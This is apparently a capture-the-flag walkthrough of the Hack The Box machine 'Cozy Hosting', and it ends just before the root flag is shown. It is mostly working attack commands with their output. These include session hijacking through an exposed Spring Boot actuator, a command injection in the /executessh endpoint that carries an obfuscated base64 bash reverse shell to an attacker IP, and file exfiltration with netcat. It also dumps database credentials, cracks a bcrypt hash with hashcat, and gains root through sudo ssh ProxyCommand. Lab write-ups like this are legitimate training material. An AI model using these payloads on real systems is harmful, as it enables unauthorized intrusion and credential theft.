





# Cozy Hosting
## Enumeration
### Port Scanning
There are two open ports. 22 (ssh) and 80 (http):
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/cozyhosting]
└─$ nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-25 10:22 EDT
Nmap scan report for 10.10.11.230
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds
                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/hackthebox/cozyhosting]
└─$ nmap -sC -sV -oN nmap/general $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-25 10:27 EDT
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.67 seconds
                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/hackthebox/cozyhosting]
└─$ nmap -p- -oN nmap/all_ports $IP                                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-25 10:25 EDT
Nmap scan report for 10.10.11.230
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 38.89 seconds
                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/hackthebox/cozyhosting]
└─$ 
```

### HTTP
The website shows a kind of welcome page with a login function:
| Index | Login |
| ----- | ----- |
|  |  |

Enumerating web directories:
```
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $feroxbuster --url http://cozyhosting.htb --wordlist /usr/share/seclists/Discovery/Web-Content/quickhits.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cozyhosting.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/quickhits.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        1l        1w        0c http://cozyhosting.htb/actuator
500        1l        1w        0c http://cozyhosting.htb/error
200        1l        1w        0c http://cozyhosting.htb/actuator/sessions
200        1l        1w        0c http://cozyhosting.htb/actuator/health
200        1l      120w        0c http://cozyhosting.htb/actuator/env
200        1l      108w        0c http://cozyhosting.htb/actuator/mappings
200        1l      542w        0c http://cozyhosting.htb/actuator/beans
[####################] - 28s     2482/2482    0s      found:5       errors:2      
[####################] - 27s     2482/2482    92/s    http://cozyhosting.htb
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $feroxbuster --url http://cozyhosting.htb --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cozyhosting.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
204        0l        0w        0c http://cozyhosting.htb/logout
200       97l      196w        0c http://cozyhosting.htb/login
500        1l        1w        0c http://cozyhosting.htb/error
401        1l        1w        0c http://cozyhosting.htb/admin
200      285l      745w        0c http://cozyhosting.htb/index
[####################] - 2m     29999/29999   0s      found:5       errors:1      
[####################] - 2m     29999/29999   215/s   http://cozyhosting.htb
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $
```

We found two interesting files or directories. `/admin` and `/actuator`.

The admin page response with `401 Unauthorized`. Probably we need to get access to that:
```
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $curl cozyhosting.htb/admin
{"timestamp":"2023-09-27T13:39:51.699+00:00","status":401,"error":"Unauthorized","path":"/admin"}┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $
```

## Spring Boot Actuator Web API
The endpoint `/actuator` is a web API from Spring Boot (_see [here](https://docs.spring.io/spring-boot/docs/current/actuator-api/htmlsingle/)_).

There is also a Seclists wordlist for this application (_/usr/share/seclists/Discovery/Web-Content/spring-boot.txt_):
```
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $feroxbuster --url http://cozyhosting.htb --wordlist /usr/share/seclists/Discovery/Web-Content/spring-boot.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cozyhosting.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        1l        1w        0c http://cozyhosting.htb/actuator
200        1l        1w        0c http://cozyhosting.htb/actuator/health
200        1l        1w        0c http://cozyhosting.htb/actuator/sessions
200        1l      120w        0c http://cozyhosting.htb/actuator/env
200        1l      108w        0c http://cozyhosting.htb/actuator/mappings
200        1l      542w        0c http://cozyhosting.htb/actuator/beans
[####################] - 0s        69/69      0s      found:3       errors:1      
[####################] - 0s        69/69      386/s   http://cozyhosting.htb
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $
```

Requesting this API results in the following response:
```
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $curl -s cozyhosting.htb/actuator | jq
{
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $
```

The endpoint `actuator/sessions` seem promising. Let's check it out:
```
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $curl -s cozyhosting.htb/actuator/sessions | jq
{
  "1F1DE6D2F87B7854021E0B0E2DAB3639": "kanderson",
  "78AD44822D4D2C6C11EF4FEFC2B8B9C7": "UNAUTHORIZED",
  "75839E3EFEA58994EC91ABAA53BBFDAE": "UNAUTHORIZED",
  "D0DA7EE6DCB6AB050E8248D97E205AEC": "UNAUTHORIZED",
  "40EB91B57294D9244792103BD2657B97": "UNAUTHORIZED"
}
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $
```

We found several session ids. One of them for a user `kanderson`. The `UNAUTHORIZED` ids were probably created, because of our connections to the login page or the admin page. We can see this in the next paragraph.

## Admin page
Like already mentioned, requesting the admin page results in a 401 error. But as we can see, the response crate some session id cookie `JSESSIONID`:
```
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $curl -vv cozyhosting.htb/admin 
*   Trying 10.10.11.230:80...
* Connected to cozyhosting.htb (10.10.11.230) port 80 (#0)
> GET /admin HTTP/1.1
> Host: cozyhosting.htb
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 401 
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 27 Sep 2023 14:10:27 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: JSESSIONID=A6F84DAFA428B57B7642842164C9B6A5; Path=/; HttpOnly
< WWW-Authenticate: Basic realm="Realm"
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 0
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< 
* Connection #0 to host cozyhosting.htb left intact
{"timestamp":"2023-09-27T14:10:27.201+00:00","status":401,"error":"Unauthorized","path":"/admin"}┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $
```

So let's set the cookie by ourselves with one of the session ids from the user `kanderson`:
```
└──╼ $curl -s -vv cozyhosting.htb/admin --cookie JSESSIONID=1F1DE6D2F87B7854021E0B0E2DAB3639
*   Trying 10.10.11.230:80...
* Connected to cozyhosting.htb (10.10.11.230) port 80 (#0)
> GET /admin HTTP/1.1
> Host: cozyhosting.htb
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: JSESSIONID=1F1DE6D2F87B7854021E0B0E2DAB3639
> 
< HTTP/1.1 200 
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 27 Sep 2023 14:15:03 GMT
< Content-Type: text/html;charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 0
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< Content-Language: en-US
< 
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta content="width=device-width, initial-scale=1.0" name="viewport">

    <title>Dashboard - Cozy Cloud</title>

[...]

```

We got a valid response! So we have access to the admin page:


### Command injection
If we further investigate the website, we find a section for adding a new host for the automatic patching. Entering some data and intercept the connection reveals the following request:


The site is calling a script `/executessh`. Probably this invokes a normal ssh command on the CLI of the system. So the command could be like `ssh kanderson@localhost`.

If this assumption is right, we might have a potential command injection here. Let's try it out:


Nice! We see some output from the `id` command. Next step is to execute a reverse shell with this command injection.

#### Reverse shell
We are limited for the input, because there is a restriction on the website. From https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions we can find a helpful bypass:
```
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.138/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0eE16Z3ZORFEwTkNBd1BpWXhD
Zz09Cg==|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $
┌─[parrot@parrot]─[/usr/share/seclists/Discovery/Web-Content]
└──╼ $curl -vv -s cozyhosting.htb/executessh --cookie JSESSIONID=56988C6CB042799471B28B8D62E12D36 -X POST -d 'host=localhost' -d 'username=$(echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0eE16Z3ZORFEwTkNBd1BpWXhDZz09Cg==|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h)'
*   Trying 10.10.11.230:80...
* Connected to cozyhosting.htb (10.10.11.230) port 80 (#0)
> POST /executessh HTTP/1.1
> Host: cozyhosting.htb
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: JSESSIONID=56988C6CB042799471B28B8D62E12D36
> Content-Length: 156
> Content-Type: application/x-www-form-urlencoded
> 


```
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.138] from (UNKNOWN) [10.10.11.230] 53888
bash: cannot set terminal process group (1061): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ ls
ls
cloudhosting-0.0.1.jar
app@cozyhosting:/app$ 
```

And we got our reverse shell. Let's stabilize it:
```
app@cozyhosting:/app$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
app@cozyhosting:/app$ ^Z
[1]+  Stopped                 nc -lnvp 4444
┌─[✗]─[parrot@parrot]─[~]
└──╼ $stty raw -echo && fg
nc -lnvp 4444

app@cozyhosting:/app$ export TERM=xterm-256-color
app@cozyhosting:/app$ 
```

## Host enumeration
We are logged in as user `app`. In our current is a file called `cloudhosting-0.0.1.jar`:
```
app@cozyhosting:/app$ ls -al 
total 58856
drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
-rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
app@cozyhosting:/app$ pwd
/app
app@cozyhosting:/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)
app@cozyhosting:/app$ 
```

This seems to be the web application, that the server is running. Checking the active processes validates this assumption:
```
app@cozyhosting:/app$ ps aux | grep java
app         1061 34.4 32.1 3674032 1288052 ?     Ssl  14:23  24:52 /usr/bin/java -jar cloudhosting-0.0.1.jar
app         2493  0.0  0.0   6476  2272 pts/2    S+   15:35   0:00 grep java
app@cozyhosting:/app$ 
```

Also, we find a user `josh` on the system and a running PostgreSQL database. Probably for the web application:
```
app@cozyhosting:/app$ ls -al /etc/passwd
-rw-r--r-- 1 root root 1985 Aug 14 13:33 /etc/passwd
app@cozyhosting:/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

[...]

app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
app@cozyhosting:/app$ ls -al /home
total 12
drwxr-xr-x  3 root root 4096 May 18 15:03 .
drwxr-xr-x 19 root root 4096 Aug 14 14:11 ..
drwxr-x---  3 josh josh 4096 Aug  8 10:19 josh
app@cozyhosting:/app$ 
```

LinPEAS gives more information over the running database:
```
╔══════════╣ Analyzing PostgreSQL Files (limit 70)
Version: psql (PostgreSQL) 14.9 (Ubuntu 14.9-0ubuntu0.22.04.1)
:
-rw-r----- 1 postgres postgres 5002 May 10 19:50 /etc/postgresql/14/main/pg_hba.conf
:
-rw-r--r-- 1 postgres postgres 29048 May 10 19:50 /etc/postgresql/14/main/postgresql.conf
ssl = on
ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'
ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'
max_wal_size = 1GB
min_wal_size = 80MB
log_timezone = 'Etc/UTC'
stats_temp_directory = '/var/run/postgresql/14-main.pg_stat_tmp'
datestyle = 'iso, mdy'
timezone = 'Etc/UTC'
default_text_search_config = 'pg_catalog.english'
```

### Reversing cloudhosting-0.0.1.jar
Maybe we can find some interesting data if we download the JAR-File and reverse it with a tool like the [Java Decompiler](https://java-decompiler.github.io/).

Downloading the file via the reverse shell:
```
┌─[✗]─[parrot@parrot]─[~/Desktop/hackthebox/cozyhosting]
└──╼ $nc -lnvp 8888 > cloudhosting.jar
listening on [any] 8888 ...
connect to [10.10.14.66] from (UNKNOWN) [10.10.11.230] 35830
```
```
app@cozyhosting:/app$ nc 10.10.14.66 8888 < cloudhosting-0.0.1.jar 
app@cozyhosting:/app$ 
```

Indeed, we find credentials for the PSQL database:


## PostgreSQL
With those credentials we can log in the database and search for more relevant data:
```
app@cozyhosting:/app$ psql -h localhost -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#     
postgres=# \l
WARNING: terminal is not fully functional
Press RETURN to continue 
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges   
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
(4 rows)

postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
WARNING: terminal is not fully functional
Press RETURN to continue 
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

```

There is a user table for the application:
```
cozyhosting=# select * from users;
WARNING: terminal is not fully functional
Press RETURN to continue 
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)

cozyhosting=# 
```

### Cracking the hash
We can now try to crack those hashes with a cracking tool of our choice:
```
┌─[parrot@parrot]─[~/Desktop/hackthebox/cozyhosting]
└──╼ $cat passwords 
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm

┌─[parrot@parrot]─[~/Desktop/hackthebox/cozyhosting]
└──╼ $
┌─[parrot@parrot]─[~/Desktop/hackthebox/cozyhosting]
└──╼ $hashcat -a 0 -m 3200 passwords /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

[...]

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

And we got our password.

## User flag
The password is also used for the user `josh` on the system. We can `su` or login via `ssh` into this user:
```
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$ cd ~     
```

In the users home directory we find the user flag:
```
josh@cozyhosting:/app$
josh@cozyhosting:~$ ls -al 
total 36
drwxr-x--- 3 josh josh 4096 Aug  8 10:19 .
drwxr-xr-x 3 root root 4096 May 18 15:03 ..
lrwxrwxrwx 1 root root    9 May 11 19:34 .bash_history -> /dev/null
-rw-r--r-- 1 josh josh  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 josh josh 3771 Jan  6  2022 .bashrc
drwx------ 2 josh josh 4096 May 18 14:47 .cache
-rw------- 1 josh josh   20 May 18 22:14 .lesshst
-rw-r--r-- 1 josh josh  807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 May 21 13:10 .psql_history -> /dev/null
-rw-r----- 1 root josh   33 Sep 29 09:40 user.txt
-rw-r--r-- 1 josh josh   39 Aug  8 10:19 .vimrc
josh@cozyhosting:~$ cat user.txt 
8c3bbb5c2365f2d2259ae43aeeb8a931
josh@cozyhosting:~$ 
```

## Privilege escalation
We don't have to enumerate the system that much to find our way to escalate our privileges. The user `josh` has sudo rights for `/usr/bin/ssh`:
```
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$ 
```

We can abuse this with a payload found on [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo):
```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

### Root flag
At last we can grab the root flag:
```
# ls -al /root
